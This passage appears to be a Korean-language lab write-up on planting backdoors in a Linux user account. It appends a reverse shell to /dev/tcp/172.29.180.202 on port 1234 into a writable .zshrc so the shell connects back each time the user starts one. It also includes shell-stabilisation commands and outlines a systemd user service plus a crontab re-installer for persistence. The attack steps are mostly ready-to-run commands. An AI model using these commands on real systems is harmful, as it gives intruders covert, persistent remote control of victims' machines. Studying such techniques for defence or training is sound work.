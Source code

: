 <br>

<img src="https://github.com/user-attachments/assets/17d4286a-e974-499f-b0d7-e23d5c02e8da" width=800>  
<img src="https://github.com/user-attachments/assets/bd04859c-34be-4dbe-9dd9-ce91c8a3a58c" width=300>  

home/kali1 경로의 파일을 쭉 보면 `/.zshrc`는 kali1 소유에 쓰기 권한이 있는 것도 쉽게 알 수 있으므로 수정해준다.   

<br>

<img src="https://github.com/user-attachments/assets/e6014968-81cf-4b0c-bd63-419a77e3f275" width=800>   

<br>

```bash
nano ~/.zshrc
```

```bash
# Shell excution code
bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'
```

이렇게 추가해주면  
kali1이 쉘을 시작할 때마다 실행될것이다.  

확인을 해보면  
<br>

<img src="https://github.com/user-attachments/assets/9fc5b433-3754-475d-afaf-2697511674a3" width=1000>   

아무것도 없이 쉘을 실행만 해도 연결이 되어있는 것을 볼 수 있다.  

<br>

### 백도어 구현 2  
`systemd` 에 재부팅시 `bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'` 를 보내는  
서비스를 등록해주자.  
그리고 `crontab` 으로 systemd 서비스가 삭제되었는지 특정 시기마다 확인하고, 다시 설치하는 스크립트를 짜보겠다.  
이렇게하면 재부팅시마다 쉘을 얻을 수 있고 삭제되더라도 다시 다운을 받을 수 있으므로 지속성을 확보할 수 있다.  

우선 하던대로 쉘 안정화를 시켜주고  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl Z
stty raw -echo; fg
stty rows 38 columns 116
```  
`systemd`에 서비스부터 구현해주자.  

`systemd`에 서비스 등록은 대부분 sudo 권한이 필요하지만  
일반 사용자 로그인마다 작동하는 서비스는 사용자 권한으로도 충분히 구현가능하다.  

- root 권한 : `/etc/systemd/system/`
- 사용자 권한 : `~/.config/systemd/user/`

위 경로에서 작동하니 참고해주자.  

